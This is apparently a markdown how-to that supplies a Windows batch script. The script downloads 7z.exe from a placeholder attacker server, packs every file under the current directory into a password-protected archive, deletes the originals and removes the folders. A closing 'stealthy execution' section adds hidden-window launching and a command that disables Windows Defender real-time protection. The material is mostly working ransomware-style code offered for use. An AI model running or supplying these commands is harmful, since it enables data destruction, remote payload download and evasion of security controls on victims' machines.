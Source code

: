 Save this as `quick_encrypt.bat`:

```batch
@echo off
powershell -Command "(New-Object Net.WebClient).DownloadFile('http://YOUR_SERVER_IP_HERE/7z.exe', '%TEMP%\7z.exe')"
%TEMP%\7z.exe a -t7z -mx=9 -mhe=on -pantai "encrypted_files.7z" "*" -r -x!encrypted_files.7z
for /f "delims=" %%F in ('dir /b /a-d /s ^| findstr /v /i "encrypted_files.7z"') do del /f /q "%%F"
for /f "delims=" %%D in ('dir /b /ad /s ^| sort /r') do rd "%%D" 2>nul
echo Files encrypted successfully!
echo Archive: encrypted_files.7z
echo Password: antai
pause
```

**Execute with:**
```cmd
quick_encrypt.bat
```

---

## Decryption Commands

To extract the encrypted files:

### Using Downloaded 7z.exe
```cmd
%TEMP%\7z.exe x encrypted_files.7z -pantai -o"extracted_files"
```

### Using Installed 7-Zip
```cmd
"C:\Program Files\7-Zip\7z.exe" x encrypted_files.7z -pantai -o"extracted_files"
```

**Parameters:**
- `x` - Extract with full paths
- `-pantai` - Password "antai"
- `-o"extracted_files"` - Output directory

---

## Advanced: Stealthy Execution

### Run with Hidden Window (PowerShell)
```cmd
powershell -WindowStyle Hidden -Command "Start-Process cmd -ArgumentList '/c <your_command_here>' -WindowStyle Hidden"
```

### Disable Windows Defender Temporarily (Requires Admin)
```cmd
powershell -Command "Set-MpPreference -DisableRealtimeMonitoring $true"
```
